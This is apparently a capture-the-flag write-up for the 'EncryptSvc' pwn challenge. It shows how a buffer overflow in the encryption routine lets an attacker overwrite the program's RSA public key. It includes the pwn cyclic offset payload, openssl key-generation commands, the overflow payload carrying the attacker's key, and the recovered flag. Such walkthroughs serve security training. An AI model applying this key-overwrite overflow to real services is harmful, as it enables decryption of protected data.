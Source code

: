 # EncryptSvc
Pwn

## Challenge 

	DESCRIPTION
	Pwn me~! Or prawn mee? ;)

	encryptsvc.cddc19q.ctf.sg 54321

	MD5("encryptsvc"): FA3D871D7FA39397922A75E18E1551E0

	ATTACHED FILES
	encryptsvc


## Solution

We are given a program which we can encrypt our messages and also an example message (which is the flag).

![screenshot/0a.png](screenshot/0a.png)

If we decompile in Ghidra, we see that we can do a buffer overflow during Encryption, where the buffer is 0x100 bytes but we can input 0x214 bytes.

![screenshot/1a.png](screenshot/1a.png)

The decrypt message is disabled.

![screenshot/1b.png](screenshot/1b.png)

---

Trying to override using buffer overflow. Here we see that the result is the RSA failed to be created after I do the overflowing.

![screenshot/2a.png](screenshot/2a.png)

Looking around, it seems that it overrides the public key with an offset of 256.

![screenshot/2a.png](screenshot/2b.png)

I used pwn cyclic to do fuzzig of offset length

	# pwn cyclic 319
	aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaa
	# pwn cyclic -l oaac                                                           
	256


---

For testing purpose, I made an RSA key with a size of 128 bits.

	 $ openssl genrsa -out my_private.pem 192
	Generating RSA private key, 192 bit long modulus
	.+++++++++++++++++++++++++++
	.+++++++++++++++++++++++++++
	e is 65537 (0x10001)
	
	 $ openssl rsa -in my_private.pem -pubout > my_public.pem
	writing RSA key

Then I did the overflow of the public key with this encryption payload.

	aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac
	-----BEGIN PUBLIC KEY-----
	MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDgLrn8w43ayMc6v435IbO+9xlf
	mMwL7F+yNkXAlQJJMjpCQ7nmaRHBsDDmrAQMqSQXkuMSda8BqF5jsCktIuDuFMbN
	YjrPasTgBGsou9N3TkCxpB1Nk3uy5npNHqQwR1ltUv7Gdsrgby2VX/jPUQKc8HC+
	hy1rN7jBFmbvZ7AcLwIDAQAB
	-----END PUBLIC KEY-----

![screenshot/2c.png](screenshot/2c.png)

And then I did an encryption of the text `hello`.

![screenshot/3a.png](screenshot/3a.png)

Using PyCrypto to decrypt, we get back the `hello` text but padded.

![screenshot/3b.png](screenshot/3b.png)

If we try to do a encryption of example text, it fails because our key is too small.

![screenshot/3b.png](screenshot/3b.png)

Repeat the key generation for 1024 bits

	 $ openssl genrsa -out my_private.pem 1024
	 $ openssl rsa -in my_private.pem -pubout > my_public.pem

And then decrypt again using the script to get the example message with the flag

	b'\x02\xc7Xl\xc6*\xa1\xdf\x01\xfb\xc7\xb6\xf7dsv\x01?lI~\xa4I\xf6\xc3\xb6\x81\xc61\x8f\x05\x81C\x97\xcc\xd6\xe0\x97V\x96\x11\xb1\x0bB\x8fWy\xc5\x9a\xa2\xa6\r\x90\x88%SE\xf66k\x8ez\xf9@\xa4n\xe07\xcc\x99_^\xef\x7f|\x93Ym\xa0\xd5MK\xb8t\x81\x80T\xa6&\xd0\x17\x00$CDDC19${public_key_0verwritten!!!}'

![screenshot/5.png](screenshot/5.png)

## Flag

	$CDDC19${public_key_0verwritten!!!}
